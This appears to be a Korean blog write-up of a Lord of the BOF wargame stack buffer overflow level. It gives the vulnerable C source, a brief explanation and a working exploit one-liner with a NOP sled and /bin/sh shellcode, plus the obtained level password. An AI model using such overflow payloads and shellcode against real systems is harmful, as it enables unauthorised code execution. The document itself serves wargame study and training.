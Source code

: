 ```yaml
---
title: "BOF - Lv.5 orc"
excerpt: "Lv.5. orc"
toc: true
toc_sticky: true
categories:
  - BOF
tags:
  - buffer overflow
---
```


## 1. Source Code
```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - wolfman
        - egghunter + buffer hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40); // 40byte를 0으로 초기화.
}
```

## 2. Vulnerability
goblin과 다른점은 마지막에 버퍼를 0으로 초기화한다는 점. 하지만 쉘코드는 어차피 ret 부분에 들어가기 때문에 상관없음.

## 3. Solution
우선 소스코드를 컴파일해서 test 실행파일을 만들고 이전문제와 똑같이 하면 됨.
```
./test `python -c 'print "A"*44+"\xbf\xbf\xbf\xbf"+"B"*200'`
``` 
그 다음 core파일을 확인해서 주소값을 확인하고 test 파일에 제대로 공격을 넣으면 됨. 만약 한번에 안되면 nop의 개수를 더 늘려서 해주면 됨.
```
./wolfman `python -c 'print "A"*44+"\x50\xfa\xff\xbf"+"\x90"*200+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
bash$ my-pass
euid = 505
love eyuna
```
my-pass : love eyuna